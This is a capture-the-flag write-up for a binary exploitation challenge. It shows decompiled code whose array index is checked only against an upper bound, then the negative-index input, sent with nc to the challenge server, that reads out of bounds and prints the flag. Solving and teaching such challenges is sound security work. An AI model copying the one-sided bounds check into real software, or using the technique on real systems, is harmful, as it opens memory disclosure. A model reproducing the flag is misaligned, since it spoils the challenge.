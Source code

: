 # Whats behind door zero

Category: Binary Exploitation, 250 points

# Description

> Sometimes we need to look **backwards** for answers

The program expects a certain kind of input.
The program only checks bounds **one way**.

The disassembled ELF

```

bool main(void)

{
  uint uVar1;
  long in_FS_OFFSET;
  uint local_4c;
  undefined8 local_48;
  char *local_40 [4];
  undefined *local_20;
  undefined *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = initialize();
  local_40[0] = "I";
  local_40[1] = &DAT_0040200a;
  local_40[2] = "hacking";
  local_40[3] = &DAT_00402017;
  local_20 = &DAT_0040201b;
  local_18 = &DAT_0040201f;
  printf("%s","From which index do you wish to read?\nEnter a number: ");
  __isoc99_scanf(&DAT_00402062,&local_4c);
  uVar1 = local_4c;
  if ((int)local_4c < 0x15) {
    printf("Printing the string at index: %d\n",(ulong)local_4c);
    puts(local_40[(int)local_4c]);
  }
  else {
    puts("That index is out of bounds. Maybe try looking in a different direction...");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0x14 < (int)uVar1;
}

```

# Solution

They give us the initial hint that the values given as input are only checked in one direction.

Looking at the disassembled ELF we can see that the **upper bound is only checked**.

Thus we can attempt to input bounds going backwards from **0**.

If we connect to the server and give it the value of -1 to access out of the array we get the flag

```
nc cmgr.c3t.eecs.net 21395

From which index do you wish to read?

Enter a number: -1

Printing the string at index: -1

c3t{neg4t1ve_numb3r5_4r3_c00l4rj5pg7t}
```







 

